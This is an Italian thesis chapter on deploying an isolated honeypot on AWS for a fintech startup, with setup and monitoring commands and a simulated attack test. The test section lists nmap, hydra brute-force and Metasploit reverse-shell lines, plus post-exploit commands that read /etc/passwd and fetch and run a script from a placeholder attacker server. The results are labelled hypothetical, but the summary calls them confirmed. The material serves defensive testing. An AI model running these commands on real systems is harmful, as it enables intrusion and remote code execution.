\section{Conclusioni sulla Sicurezza dell'Infrastruttura e dei Servizi}
Questo capitolo ha delineato le principali misure e pratiche adottate e proposte per la messa in sicurezza dell'infrastruttura di rete, dei servizi di calcolo e dei dati della startup fintech Finanz su AWS. Dalla progettazione attenta del VPC alla protezione delle istanze EC2, dalla crittografia dei dati sensibili al monitoraggio proattivo e all'automazione tramite Infrastructure as Code, emerge un approccio multi-livello alla sicurezza.
È importante sottolineare che la sicurezza non è uno stato statico, ma un processo continuo di valutazione, adattamento e miglioramento. Le minacce evolvono, i requisiti di business cambiano e nuove funzionalità dei servizi cloud diventano disponibili. Pertanto, per Finanz sarà cruciale mantenere un impegno costante verso la revisione periodica delle configurazioni di sicurezza, l'aggiornamento delle conoscenze del team, l'esecuzione di test (come penetration test o simulazioni di DR) e l'adozione di nuove best practice non appena emergono. Solo così potrà garantire che la sua infrastruttura AWS rimanga un ambiente sicuro e affidabile per le sue operazioni fintech.

\chapter{Conclusioni}
\label{ch:conclusioni}
Nell'odierno panorama della cybersecurity, gli attacchi informatici diretti verso le istituzioni finanziarie stanno diventando sempre più sofisticati e frequenti. Le startup fintech, che gestiscono dati sensibili e transazioni economiche, rappresentano un bersaglio particolarmente appetibile per i cybercriminali. Questo capitolo esamina l'implementazione di un honeypot all'interno di un'infrastruttura AWS come strumento di sicurezza proattiva per una startup fintech, analizzandone definizione, utilità, vantaggi, svantaggi, costi e procedure tecniche di implementazione. L'analisi includerà inoltre un esperimento pratico di attacco per verificare l'efficacia dell'implementazione.

\section{Definizione e Utilità di un Honeypot}
\label{sec:def_utilita}

\subsection{Che cos'è un Honeypot}
\label{subsec:cos_e_honeypot}

Un honeypot in informatica è un meccanismo di sicurezza progettato per funzionare come esca, con lo scopo di attirare i cybercriminali in modo da poterne osservare metodologie, tecniche e strumenti utilizzati durante un tentativo di intrusione \cite{proofpoint2024}. Il termine "honeypot" (letteralmente "barattolo di miele") riflette efficacemente la sua funzione: attirare gli aggressori informatici come il miele attira gli insetti, per poi studiarli e sviluppare contromisure adeguate \cite{universeit2021}.

Si tratta di un sistema hardware o software che simula un ambiente vulnerabile, isolato dall'infrastruttura di produzione principale dell'organizzazione, progettato per essere percepito come un bersaglio legittimo e interessante dagli attaccanti \cite{insic2023, perego_2023}. L'honeypot appare deliberatamente vulnerabile e allettante, imitando un obiettivo reale come un server, una rete o un'applicazione contenente dati apparentemente preziosi \cite{proofpoint2024, vienažindytė_2020}.

\subsection{Utilità nel Contesto di una Startup fintech}
\label{subsec:utilita_fintech}

Nel contesto di una startup fintech, un honeypot risulta particolarmente utile per diverse ragioni strategiche:

\begin{enumerate}
    \item \textbf{Rilevamento precoce delle minacce}: Consente di identificare tentativi di intrusione nella fase iniziale, prima che raggiungano i sistemi critici contenenti dati finanziari sensibili.
    \item \textbf{Comprensione degli attaccanti}: Fornisce informazioni preziose sulle tattiche, tecniche e procedure (TTP) utilizzate dagli aggressori specificamente interessati ai servizi finanziari \cite{vito2024}.
    \item \textbf{Riduzione dei falsi positivi}: A differenza di altri sistemi di sicurezza, qualsiasi interazione con un honeypot è probabilmente malevola, riducendo l'affaticamento da allerta.
    \item \textbf{Aggiornamento delle difese}: Permette di perfezionare i sistemi di rilevamento delle intrusioni (IDS) e migliorare la risposta alle minacce basandosi su attacchi reali \cite{fortinet2023}.
    \item \textbf{Conformità normativa}: Aiuta a dimostrare un approccio proattivo alla sicurezza, supportando la conformità con normative finanziarie stringenti come PSD2, GDPR e altre regolamentazioni del settore fintech.
\end{enumerate}

\section{Tipologie di Honeypot}
\label{sec:tipologie}

La scelta della tipologia di honeypot dipende dagli obiettivi specifici dell'organizzazione e dal livello di risorse che intende investire. Per una startup fintech, è fondamentale comprendere le diverse opzioni disponibili per selezionare la soluzione più adatta \cite{perego_2023}.

\subsection{Classificazione per Livello di Interazione}
\label{subsec:class_interazione}

\subsubsection{Honeypot a Bassa Interazione}
\label{subsubsec:bassa_interazione}

Gli honeypot a bassa interazione simulano servizi di rete semplici come server web, FTP o database, limitando l'interazione con l'attaccante \cite{vito2024}. Questi sistemi:
\begin{itemize}
    \item Registrano principalmente le attività di base degli aggressori.
    \item Richiedono risorse limitate per l'implementazione e la manutenzione.
    \item Presentano un rischio minimo di compromissione.
    \item Sono efficaci contro attacchi automatizzati e scansioni di massa \cite{nordvpn}.
\end{itemize}

\subsubsection{Honeypot ad Alta Interazione}
\label{subsubsec:alta_interazione}

Gli honeypot ad alta interazione replicano sistemi complessi o interi segmenti di rete, offrendo un ambiente più realistico che può attrarre attacchi mirati e sofisticati \cite{vito2024}. Questi honeypot:
\begin{itemize}
    \item Consentono un'interazione estesa con gli aggressori.
    \item Raccolgono informazioni dettagliate sui metodi d'attacco avanzati.
    \item Richiedono maggiori risorse e competenze per implementazione e gestione.
    \item Comportano un rischio più elevato di essere utilizzati come trampolino per ulteriori attacchi.
\end{itemize}

\subsection{Classificazione per Scopo}
\label{subsec:class_scopo}

\subsubsection{Honeypot di Ricerca}
\label{subsubsec:ricerca}

Utilizzati principalmente da istituzioni governative e centri di ricerca, sono progettati per analizzare approfonditamente gli attacchi subiti al fine di perfezionare le tecniche di protezione esistenti \cite{proofpoint2024}. Questi honeypot sono generalmente complessi e richiedono un monitoraggio continuo. Un esempio di setup su AWS per ricerca è discusso in \cite{tsang_2022}.

\subsubsection{Honeypot di Produzione}
\label{subsubsec:produzione}

Impiegati comunemente in ambito aziendale, gli honeypot di produzione vengono implementati all'interno di un più ampio sistema di difesa attiva (Intrusion Detection System o IDS) \cite{proofpoint2024}. Sono concepiti per:
\begin{itemize}
    \item Identificare attacchi in corso nell'ambiente produttivo.
    \item Distrarre gli aggressori dai sistemi reali.
    \item Generare avvisi in tempo reale.
    \item Supportare le operazioni di sicurezza quotidiane.
\end{itemize}

\section{Vantaggi e Svantaggi degli Honeypot}
\label{sec:vantaggi_svantaggi}

\subsection{Vantaggi}
\label{subsec:vantaggi}

L'implementazione di un honeypot in un'infrastruttura AWS per una startup fintech offre numerosi vantaggi significativi:

\begin{enumerate}
    \item \textbf{Raccolta di intelligence sulle minacce}: Gli honeypot permettono di osservare gli aggressori in azione, raccogliendo informazioni preziose sulle loro identità, tattiche, strumenti e motivazioni \cite{proofpoint2024, fortinet2023}. Questa intelligence è particolarmente rilevante per le fintech, che sono spesso bersagli di attacchi mirati.
    \item \textbf{Identificazione di vulnerabilità}: Facilitano la scoperta delle debolezze nei sistemi informatici aziendali \cite{universeit2021}, permettendo di anticipare e correggere potenziali problemi prima che vengano sfruttati in attacchi reali.
    \item \textbf{Rilevamento precoce di nuove minacce}: Possono intercettare attacchi zero-day o tecniche emergenti prima che raggiungano i sistemi di produzione.
    \item \textbf{Deviazione degli attacchi}: Attirano gli aggressori su sistemi non critici, proteggendo i sistemi reali contenenti dati finanziari sensibili \cite{vito2024}.
    \item \textbf{Valutazione dell'efficacia delle difese}: Consentono di testare l'adeguatezza delle misure di sicurezza esistenti e identificare potenziali vulnerabilità da correggere \cite{vito2024}.
    \item \textbf{Riduzione dei falsi positivi}: A differenza di altri strumenti di sicurezza, qualsiasi attività su un honeypot è presumibilmente sospetta, riducendo il problema dei falsi allarmi \cite{nordvpn}.
    \item \textbf{Miglioramento del tempo di risposta}: Forniscono avvisi tempestivi che permettono interventi rapidi, riducendo il tempo medio di rilevamento (MTTD) e di risposta (MTTR) agli incidenti di sicurezza.
\end{enumerate}

\subsection{Svantaggi}
\label{subsec:svantaggi}

Nonostante i benefici, l'implementazione di honeypot presenta anche alcune criticità da considerare:

\begin{enumerate}
    \item \textbf{Rischio di identificazione}: Se gli attaccanti si accorgono dell'inganno, potrebbero cambiare strategia e dirigere i loro sforzi verso altri sistemi \cite{insic2023, perego_2023}, vanificando il valore dell'honeypot.
    \item \textbf{Complessità di gestione}: Richiedono competenze specifiche per l'implementazione e il monitoraggio, aumentando potenzialmente il carico di lavoro per il team IT di una startup.
    \item \textbf{Rischi di compromissione}: Se non configurati correttamente, gli honeypot potrebbero diventare un punto d'ingresso per accedere ai sistemi reali \cite{universeit2021} o essere usati per attaccare terzi.
    \item \textbf{Considerazioni legali}: In alcune giurisdizioni, l'utilizzo di honeypot potrebbe sollevare questioni legali relative alla privacy e all'intrappolamento.
    \item \textbf{Costi operativi}: Richiedono risorse per la configurazione, il mantenimento e l'analisi, che potrebbero essere significative per una startup con budget limitato \cite{reddit_ec2}.
    \item \textbf{Falso senso di sicurezza}: Affidarsi eccessivamente agli honeypot potrebbe portare a trascurare altri aspetti fondamentali della sicurezza informatica.
\end{enumerate}

\section{Implementazione di un Honeypot in AWS}
\label{sec:implementazione_aws}

Diverse soluzioni e guide esistono per implementare honeypot su AWS, da soluzioni open-source come Cowrie \cite{cowrie_aws, infosanity_2020, cowrie_devs_2024} e T-Pot \cite{zhang_2023} a soluzioni commerciali disponibili sul Marketplace \cite{aws_marketplace} o integrazioni con piattaforme SIEM/IDR \cite{rapid7, 10183431}.

\subsection{Pianificazione e Requisiti}
\label{subsec:pianificazione}

Prima di procedere con l'implementazione tecnica, è fondamentale definire chiaramente obiettivi e requisiti:

\begin{itemize}
    \item \textbf{Obiettivi di sicurezza}: Determinare se lo scopo principale è il rilevamento precoce delle minacce, la raccolta di intelligence o la distrazione degli attaccanti.
    \item \textbf{Tipo di honeypot}: Selezionare tra honeypot a bassa o alta interazione in base alle risorse disponibili e agli obiettivi.
    \item \textbf{Posizionamento}: Decidere se collocare l'honeypot all'interno o all'esterno del perimetro aziendale (es. in una DMZ).
    \item \textbf{Risorse da simulare}: Identificare quali servizi finanziari o applicazioni imitare per risultare attraenti agli aggressori (potenzialmente informato da analisi di mercato come \cite{fricano2017}).
    \item \textbf{Meccanismi di monitoraggio}: Definire come verranno registrati e analizzati i tentativi di intrusione (es. log CloudWatch \cite{cloudwatch_pricing}).
    \item \textbf{Procedure di risposta}: Stabilire protocolli di intervento in caso di rilevamento di attacchi.
\end{itemize}

\subsection{Selezione del Tipo di Honeypot per una Startup fintech}
\label{subsec:selezione_tipo}

Per una startup fintech, consigliamo un approccio equilibrato:

\begin{itemize}
    \item \textbf{Fase iniziale}: Implementare honeypot a bassa interazione che simulino API finanziarie, portali di internet banking e database con dati fittizi. Questi sono più semplici da gestire e meno rischiosi.
    \item \textbf{Fase avanzata}: Considerare honeypot ad alta interazione (come T-Pot \cite{zhang_2023} o configurazioni custom \cite{tsang_2022}) che emulino interi sistemi di pagamento o piattaforme di trading, per raccogliere intelligence più dettagliata.
\end{itemize}

\subsection{Implementazione Tecnica in AWS}
\label{subsec:implementazione_tecnica}

\subsubsection{Architettura Generale}
\label{subsubsec:architettura}

L'architettura proposta utilizza diversi servizi AWS per creare un sistema di honeypot sicuro ed efficace:

% Non uso lstlisting per questo diagramma semplice
\begin{verbatim}
VPC Isolato
|
|-- Public Subnet (DMZ)
|   |-- Honeypot Server EC2 (es. T-Pot)
|   |-- (Opzionale) Load Balancer (ALB)
|
|-- Private Subnet (per gestione/monitoraggio sicuro)
    |-- (Opzionale) Server di monitoraggio
    |-- Database per log (es. RDS, se non si usa CloudWatch/Elasticsearch)
    |-- Integrazione con AWS CloudWatch
    |-- Integrazione con AWS GuardDuty
\end{verbatim}

\subsubsection{Configurazione del VPC Isolato}
\label{subsubsec:config_vpc}

Il primo passo consiste nel creare un Virtual Private Cloud (VPC) isolato dalla rete di produzione per contenere l'honeypot e limitare i rischi.

\begin{lstlisting}[caption={Comandi AWS CLI (esemplificativi) per la creazione di un VPC isolato}, label=lst:vpc_setup]
# Creazione VPC
aws ec2 create-vpc --cidr-block 10.0.0.0/16 --tag-specifications 'ResourceType=vpc,Tags=[{Key=Name,Value=HoneypotVPC}]'

# Creazione subnet pubblica
aws ec2 create-subnet --vpc-id vpc-xxxxxxxx --cidr-block 10.0.1.0/24 --availability-zone eu-west-1a --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=HoneypotPublicSubnet}]'

# Creazione subnet privata (per gestione sicura, se necessaria)
aws ec2 create-subnet --vpc-id vpc-xxxxxxxx --cidr-block 10.0.2.0/24 --availability-zone eu-west-1a --tag-specifications 'ResourceType=subnet,Tags=[{Key=Name,Value=HoneypotPrivateSubnet}]'

# Configurazione Internet Gateway e Route Table per la subnet pubblica
aws ec2 create-internet-gateway --tag-specifications 'ResourceType=internet-gateway,Tags=[{Key=Name,Value=HoneypotIGW}]'
aws ec2 attach-internet-gateway --internet-gateway-id igw-xxxxxxxx --vpc-id vpc-xxxxxxxx
# ... creare route table, aggiungere route 0.0.0.0/0 via IGW, associare a subnet pubblica ...
\end{lstlisting}

\subsubsection{Implementazione del Server Honeypot (Esempio con EC2)}
\label{subsubsec:impl_server}

Creiamo un'istanza EC2 (es. tipo t2.micro o t2.medium \cite{aws_t2}) che ospiterà il software honeypot.

\begin{lstlisting}[caption={Configurazione (esemplificativa) del server honeypot EC2}, label=lst:ec2_setup]
# Creazione Security Group (aprire solo porte necessarie per l'honeypot!)
aws ec2 create-security-group --group-name HoneypotSG --description "Security Group for Honeypot" --vpc-id vpc-xxxxxxxx
# Esempio: Apertura porte comuni per T-Pot (SSH, Telnet, Web, etc.)
# ATTENZIONE: Aprire queste porte rende l'istanza un bersaglio!
aws ec2 authorize-security-group-ingress --group-id sg-xxxxxxxx --protocol tcp --port 22 --cidr 0.0.0.0/0
aws ec2 authorize-security-group-ingress --group-id sg-xxxxxxxx --protocol tcp --port 80 --cidr 0.0.0.0/0
aws ec2 authorize-security-group-ingress --group-id sg-xxxxxxxx --protocol tcp --port 443 --cidr 0.0.0.0/0
# ... aggiungere altre porte in base all'honeypot scelto (es. 23, 69, 135, 445, 1433, 3306, 5060, 5900, 6379, 8080, etc.)

# Lancio istanza EC2 (usare un'AMI Linux recente)
aws ec2 run-instances --image-id ami-xxxxxxxx --count 1 --instance-type t2.micro --key-name your-key-pair --security-group-ids sg-xxxxxxxx --subnet-id subnet-xxxxxxxx --associate-public-ip-address --tag-specifications 'ResourceType=instance,Tags=[{Key=Name,Value=HoneypotServer}]' --user-data file://honeypot-setup.sh
\end{lstlisting}

Lo script `honeypot-setup.sh` potrebbe installare un software honeypot come T-Pot (seguendo guide come \cite{zhang_2023}) o Cowrie (\cite{cowrie_aws, infosanity_2020}).

\begin{lstlisting}[caption={Script di esempio `honeypot-setup.sh` per installare T-Pot (semplificato)}, label=lst:tpot_setup]
#!/bin/bash
apt-get update -y
apt-get install -y git docker.io # Prerequisiti T-Pot
systemctl enable docker
systemctl start docker

# Clonazione e installazione T-Pot (consultare la guida ufficiale per i dettagli!)
# git clone https://github.com/telekom-security/tpotce.git /opt/tpot
# cd /opt/tpot/iso/installer/
# ./install.sh --type=user # Scegliere il tipo appropriato

# Esempio: Installazione agente CloudWatch Logs per inviare log T-Pot
apt-get install -y python3-pip
pip3 install awscli awslogs
# ... configurare /etc/awslogs/awslogs.conf per leggere i log da /data/tpot/log/* ...
# systemctl enable awslogsd
# systemctl start awslogsd
echo "Honeypot setup script finished."
\end{lstlisting}

\subsubsection{Configurazione del Sistema di Monitoraggio (CloudWatch, GuardDuty)}
\label{subsubsec:config_monitoraggio}

Implementiamo un sistema di monitoraggio robusto utilizzando servizi AWS nativi.

\begin{lstlisting}[caption={Configurazione (esemplificativa) del monitoraggio AWS}, label=lst:monitoring_setup]
# Creazione del gruppo di log CloudWatch per i log dell'honeypot
aws logs create-log-group --log-group-name /honeypot/logs --region eu-west-1

# Creazione del detector di GuardDuty
aws guardduty create-detector --enable --finding-publishing-frequency FIFTEEN_MINUTES --region eu-west-1

# Creazione di un topic SNS per le notifiche di allarmi/findings
aws sns create-topic --name HoneypotAlerts --region eu-west-1
# Sottoscrizione email/lambda per ricevere notifiche
aws sns subscribe --topic-arn arn:aws:sns:eu-west-1:ACCOUNT_ID:HoneypotAlerts --protocol email --notification-endpoint security@your-fintech.com --region eu-west-1

# Configurazione di un allarme CloudWatch (esempio: alto traffico in ingresso sull'honeypot)
aws cloudwatch put-metric-alarm --alarm-name HoneypotHighNetworkInAlarm \
    --metric-name NetworkIn --namespace AWS/EC2 \
    --statistic Average --period 300 --threshold 1000000 \
    --comparison-operator GreaterThanOrEqualToThreshold \
    --dimensions Name=InstanceId,Value=i-xxxxxxxxxxxxxxxxx \
    --evaluation-periods 1 --unit Bytes \
    --alarm-actions arn:aws:sns:eu-west-1:ACCOUNT_ID:HoneypotAlerts \
    --region eu-west-1

# Creare regole EventBridge per inoltrare i findings di GuardDuty al topic SNS
# ... configurazione tramite console o AWS CLI ...
\end{lstlisting}

\subsubsection{Simulazione di Servizi Finanziari (opzionale, per alta interazione)}
\label{subsubsec:sim_servizi}

Per rendere l'honeypot più attraente per attaccanti mirati al settore fintech, si potrebbero configurare servizi specifici (es. usando container Docker all'interno dell'honeypot) che simulano API di pagamento, portali fittizi, etc. Questo richiede un honeypot ad alta interazione e maggiore configurazione.

\subsubsection{Configurazione di AWS WAF e Shield (opzionale)}
\label{subsubsec:config_waf}

Sebbene l'obiettivo sia attirare traffico, si potrebbe considerare l'uso di AWS WAF (Web Application Firewall) davanti a eventuali servizi web esposti dall'honeypot (se gestito tramite un Load Balancer) non per bloccare, ma per *registrare* tipi specifici di attacchi (SQLi, XSS) o per filtrare traffico di gestione legittimo. AWS Shield Standard è attivo di default per proteggere da attacchi DDoS di base.

\subsection{Configurazioni di Sicurezza Aggiuntive}
\label{subsec:sicurezza_aggiuntiva}

È cruciale isolare l'honeypot per evitare che diventi un punto di partenza per attacchi verso l'infrastruttura reale:

\begin{itemize}
    \item \textbf{Network ACLs (NACLs)}: Configurare NACLs restrittive sulla subnet dell'honeypot per bloccare esplicitamente qualsiasi tentativo di comunicazione dall'honeypot verso le subnet di produzione.
    \item \textbf{Security Groups}: Il Security Group dell'honeypot dovrebbe permettere solo il traffico in ingresso necessario per i servizi esposti e limitare il traffico in uscita solo verso destinazioni note (es. endpoint CloudWatch Logs, server di aggiornamento).
    \item \textbf{IAM Roles}: Usare ruoli IAM con permessi minimi per l'istanza EC2 (es. solo per inviare log a CloudWatch).
    \item \textbf{Monitoraggio delle Configurazioni (AWS Config)}: Monitorare cambiamenti alla configurazione dell'honeypot (Security Groups, NACLs, etc.) per rilevare eventuali manomissioni.
    \item \textbf{Backup e Ripristino}: Avere un piano per ripristinare rapidamente l'honeypot da un'immagine pulita (AMI) nel caso venga compromesso in modo irrecuperabile.
\end{itemize}

\section{Analisi dei Costi per una Startup fintech}
\label{sec:analisi_costi}

\subsection{Stima dei Costi di Implementazione e Mantenimento}
\label{subsec:stima_costi}

I costi dipendono fortemente dalla complessità dell'honeypot e dal traffico ricevuto. Una stima indicativa mensile per un setup base su AWS (regione eu-west-1, Irlanda) potrebbe includere:


    

A questi costi diretti AWS, vanno aggiunti:

\begin{itemize}
    \item \textbf{Costi di personale}: Tempo dedicato all'analisi dei log e alla manutenzione. Anche poche ore a settimana possono incidere significativamente per una startup. L'analisi dei dati raccolti, come quelli mostrati in \cite{peiris_2024}, richiede tempo.
    \item \textbf{Costi iniziali di implementazione}: Setup e configurazione (potrebbero essere necessarie alcune giornate uomo).
    \item \textbf{Costi di formazione}: Se il team non ha esperienza con honeypot o analisi di sicurezza.
\end{itemize}

*Nota:* L'uso di istanze più potenti (es. t2.medium per T-Pot), più storage, o un traffico di attacco molto elevato possono aumentare i costi. Soluzioni specifiche come quelle su AWS Marketplace \cite{aws_marketplace} o integrazioni gestite \cite{rapid7, salient_2025} avranno modelli di costo differenti.

\subsection{Valutazione Costo-Beneficio per una Startup fintech}
\label{subsec:costo_beneficio}

Per una startup fintech, l'investimento in un honeypot deve essere valutato rispetto ai potenziali benefici:

\textbf{Fattori a favore dell'implementazione:}
\begin{itemize}
    \item \textbf{Riduzione del rischio finanziario e reputazionale}: Il costo di una violazione dei dati nel settore finanziario può essere estremamente elevato, potenzialmente esistenziale per una startup. Il costo dell'honeypot è generalmente trascurabile in confronto.
    \item \textbf{Vantaggio competitivo}: Dimostrare un approccio maturo e proattivo alla sicurezza può aumentare la fiducia di clienti, partner e investitori.
    \item \textbf{Supporto alla conformità normativa}: Può contribuire a soddisfare alcuni requisiti relativi al monitoraggio delle minacce e alla gestione degli incidenti.
    \item \textbf{Intelligence specifica}: Fornisce dati preziosi sulle TTP degli attaccanti che prendono di mira specificamente i servizi fintech, permettendo di adattare meglio le difese reali.
\end{itemize}

\textbf{Considerazioni economiche per una startup:}
\begin{itemize}
    \item \textbf{Budget limitato}: Il costo operativo, specialmente quello legato al tempo del personale per l'analisi, deve essere considerato attentamente.
    \item \textbf{Scalabilità}: L'approccio AWS permette di iniziare con un setup a basso costo e scalare se necessario.
    \item \textbf{Alternative}: Valutare se altre misure di sicurezza (es. WAF avanzato, test di penetrazione regolari) potrebbero offrire un ROI migliore nella fase iniziale.
\end{itemize}

\textbf{Conclusione sulla valutazione costo-beneficio:}
Per la maggior parte delle startup fintech, data la sensibilità dei dati gestiti e l'attrattiva per gli attaccanti, l'implementazione di un honeypot (anche semplice) rappresenta probabilmente un investimento giustificato. Il rapporto costo-beneficio è favorevole se l'honeypot contribuisce a prevenire anche un singolo incidente minore o fornisce intelligence utile a rafforzare le difese primarie. Si consiglia di iniziare con un'implementazione a basso costo e bassa interazione, focalizzandosi sull'integrazione con i sistemi di alerting esistenti.

\section{Test di Verifica: Esperimento di Attacco Controllato}
\label{sec:test_verifica}

\subsection{Progettazione dell'Esperimento}
\label{subsec:progettazione_test}

Per verificare l'efficacia dell'honeypot implementato, è stato condotto un esperimento controllato simulando diverse tipologie di attacco comunemente utilizzate contro infrastrutture web e servizi esposti.

\subsubsection{Obiettivi del Test}
\label{subsubsec:obiettivi_test}
\begin{itemize}
    \item Verificare la capacità dell'honeypot (ipotizziamo un T-Pot o simile) di rilevare e loggare correttamente varie tipologie di attacco.
    \item Testare l'efficacia del sistema di monitoraggio (CloudWatch Alarms, GuardDuty Findings) e di alerting (SNS).
    \item Valutare la qualità e l'utilità dei dati raccolti (IP sorgente, payload, comandi tentati).
    \item Identificare eventuali configurazioni errate o limitazioni del setup.
\end{itemize}

\subsubsection{Metodologia}
\label{subsubsec:metodologia_test}
Il test è stato condotto da un indirizzo IP esterno controllato, utilizzando strumenti di scansione e attacco standard, simulando un aggressore esterno non mirato ma opportunistico.
\begin{enumerate}
    \item Scansione delle porte e identificazione dei servizi esposti dall'honeypot.
    \item Tentativi di accesso (brute force) su servizi comuni (SSH, Telnet, web login fittizi).
    \item Tentativi di exploit su vulnerabilità note simulate dai servizi dell'honeypot (es. web server, database).
    \item Interazione con shell simulate (se disponibili, es. tramite Cowrie all'interno di T-Pot).
\end{enumerate}

\subsection{Software e Comandi Utilizzati (Esempi)}
\label{subsec:sw_comandi_test}

\subsubsection{Fase 1: Scansione e Ricognizione}
\label{subsubsec:fase1_test}
\begin{lstlisting}[caption={Comandi Nmap per la scansione iniziale}, label=lst:nmap_scan]
# Scansione TCP SYN delle porte comuni e version detection
nmap -sS -sV -p 21,22,23,80,443,3306,8080 <honeypot-public-ip>

# Scansione UDP
# nmap -sU --top-ports 20 <honeypot-public-ip>

# Scansione aggressiva (OS detection, script)
# nmap -A -T4 <honeypot-public-ip>
\end{lstlisting}

\subsubsection{Fase 2: Tentativi di Brute Force}
\label{subsubsec:fase2_test}
\begin{lstlisting}[caption={Attacchi di forza bruta con Hydra}, label=lst:hydra_brute]
# Brute force SSH
hydra -L users.txt -P passwords.txt ssh://<honeypot-public-ip> -t 4

# Brute force Telnet
hydra -L users.txt -P passwords.txt telnet://<honeypot-public-ip>

# Brute force su form di login web (esempio)
# hydra -l admin -P common-passwords.txt <honeypot-public-ip> http-post-form "/login.php:user=^USER^&pass=^PASS^:Login Failed"
\end{lstlisting}

\subsubsection{Fase 3: Tentativi di Exploit (Simulati)}
\label{subsubsec:fase3_test}
Se l'honeypot emula servizi vulnerabili (es. tramite Kippo, Dionaea dentro T-Pot), si possono usare strumenti come Metasploit per interagire.
\begin{lstlisting}[caption={Esempio di interazione con Metasploit (ipotetico)}, label=lst:metasploit_test]
# msfconsole
# > use exploit/multi/handler # O exploit specifici se l'honeypot li simula
# > set PAYLOAD linux/x86/meterpreter/reverse_tcp
# > set LHOST <attacker-ip>
# > set RHOST <honeypot-public-ip>
# > exploit
\end{lstlisting}
L'honeypot dovrebbe loggare questi tentativi.

\subsubsection{Fase 4: Interazione Post-Exploit (Simulata)}
\label{subsubsec:fase4_test}
Se si ottiene accesso a una shell simulata (es. Cowrie \cite{cowrie_devs_2024}), l'honeypot registrerà i comandi eseguiti.
\begin{lstlisting}[caption={Comandi comuni eseguiti in shell compromesse simulate}, label=lst:post_exploit_cmds]
uname -a
ls -la /
cat /etc/passwd
wget http://<attacker-server>/malware.sh -O /tmp/m.sh
chmod +x /tmp/m.sh
/tmp/m.sh
exit
\end{lstlisting}

\subsection{Risultati Ottenuti (Ipotetici)}
\label{subsec:risultati_test}

L'esperimento simulato dovrebbe generare i seguenti output nel sistema di monitoraggio:

\subsubsection{Log dell'Honeypot (es. T-Pot / CloudWatch Logs)}
\label{subsubsec:log_honeypot_test}
\begin{itemize}
    \item Log dettagliati delle connessioni in ingresso (IP sorgente, porta destinazione, timestamp).
    \item Credenziali usate nei tentativi di brute force (log di Cowrie, HonSSH).
    \item Payload di exploit tentati (log di Dionaea, Suricata).
    \item Comandi eseguiti nelle shell simulate (log di Cowrie).
    \item File scaricati dall'attaccante simulato (se supportato).
\end{itemize}

\subsubsection{Findings di AWS GuardDuty}
\label{subsubsec:guardduty_findings_test}
GuardDuty dovrebbe generare findings relativi a:
\begin{itemize}
    \item `Recon:EC2/Portscan`: Rilevamento della scansione Nmap.
    \item `UnauthorizedAccess:EC2/SSHBruteForce`: Rilevamento del brute force SSH.
    \item `UnauthorizedAccess:EC2/MaliciousIPCaller`: Se l'IP attaccante è noto per attività malevole.
    \item Potenzialmente altri findings a seconda delle azioni e delle capacità di GuardDuty.
\end{itemize}

\subsubsection{Allarmi AWS CloudWatch}
\label{subsubsec:cloudwatch_alarms_test}
\begin{itemize}
    \item L'allarme sull'alto traffico di rete (`NetworkIn`) dovrebbe scattare durante la scansione o il brute force.
    \item Altri allarmi configurati (es. alto utilizzo CPU) potrebbero attivarsi.
\end{itemize}

\subsubsection{Notifiche SNS}
\label{subsubsec:sns_notifications_test}
Le notifiche email (o altre configurate) dovrebbero essere ricevute in base ai trigger degli allarmi CloudWatch e/o ai findings di GuardDuty inoltrati tramite EventBridge.

\subsection{Analisi dei Risultati (Ipotetica)}
\label{subsec:analisi_risultati_test}

L'esperimento controllato dimostrerebbe (ipoteticamente) che:
\begin{itemize}
    \item L'honeypot rileva e registra correttamente le attività di scansione e brute force.
    \item I servizi AWS (GuardDuty, CloudWatch) forniscono un livello aggiuntivo di rilevamento e alerting automatico.
    \item I log raccolti (specialmente da honeypot come Cowrie/T-Pot) forniscono intelligence utile (credenziali tentate, comandi eseguiti).
    \item Il sistema di notifica funziona come previsto, allertando il team di sicurezza.
    \item L'uso di honeytokens \cite{10183431} potrebbe ulteriormente arricchire i dati raccolti, ad esempio se venissero utilizzate credenziali fittizie piazzate nell'honeypot.
\end{itemize}
Questo conferma il valore dell'honeypot come strumento di rilevamento e raccolta intelligence nell'ambiente AWS della startup fintech.

\section{Considerazioni Finali e Raccomandazioni}
\label{sec:considerazioni_finali}

\subsection{Sintesi dei Risultati}
\label{subsec:sintesi_risultati}

L'implementazione di un honeypot in un'infrastruttura AWS rappresenta una strategia di sicurezza proattiva valida ed economicamente accessibile per una startup fintech. Offre capacità di:
\begin{itemize}
    \item Rilevamento precoce di scansioni e tentativi di intrusione.
    \item Raccolta di intelligence specifica sugli attaccanti interessati ai servizi offerti.
    \item Distrazione degli attaccanti dai sistemi di produzione reali.
    \item Integrazione con strumenti di monitoraggio e alerting AWS nativi.
\end{itemize}
I test controllati confermano l'efficacia del rilevamento e del logging per le tipologie di attacco più comuni.

\subsection{Raccomandazioni per l'Implementazione}
\label{subsec:raccomandazioni}

Sulla base dell'analisi effettuata, si raccomanda alle startup fintech di:

\begin{itemize}
    \item \textbf{Iniziare in modo semplice}: Implementare un honeypot a bassa/media interazione (es. T-Pot, Cowrie) in un VPC isolato, con un focus sull'integrazione dell'alerting (GuardDuty, CloudWatch).
    \item \textbf{Isolare rigorosamente}: Utilizzare NACLs e Security Groups per impedire qualsiasi comunicazione dall'honeypot verso l'infrastruttura di produzione.
    \item \textbf{Automatizzare il monitoraggio}: Sfruttare al massimo CloudWatch Logs, GuardDuty e SNS/EventBridge per ridurre il carico di lavoro manuale di analisi.
    \item \textbf{Non fare affidamento esclusivo}: L'honeypot è uno strumento complementare, non sostitutivo, di altre misure di sicurezza fondamentali (WAF, IDS/IPS sulla rete di produzione, hardening, patch management, autenticazione forte, etc.).
    \item \textbf{Considerare la legalità e l'etica}: Essere consapevoli delle implicazioni legali relative alla raccolta di dati sugli attaccanti.
    \item \textbf{Pianificare la manutenzione}: Aggiornare regolarmente il software dell'honeypot e rivedere le configurazioni di sicurezza.
\end{itemize}

\subsection{Sviluppi Futuri}
\label{subsec:sviluppi_futuri}

L'implementazione di honeypot nel contesto fintech può evolvere:

\begin{itemize}
    \item \textbf{Honeypot più sofisticati}: Creare honeypot ad alta interazione che simulino più realisticamente le API e i workflow fintech specifici dell'azienda.
    \item \textbf{Honeytokens mirati}: Disseminare credenziali API fittizie, token di accesso o dati di clienti simulati all'interno dell'honeypot (o anche nei sistemi di produzione) per rilevare compromissioni più profonde \cite{10183431}.
    \item \textbf{Analisi basata su ML/AI}: Utilizzare servizi AWS (es. SageMaker, GuardDuty ML) o strumenti esterni per analizzare i pattern di attacco raccolti e identificare anomalie o minacce emergenti.
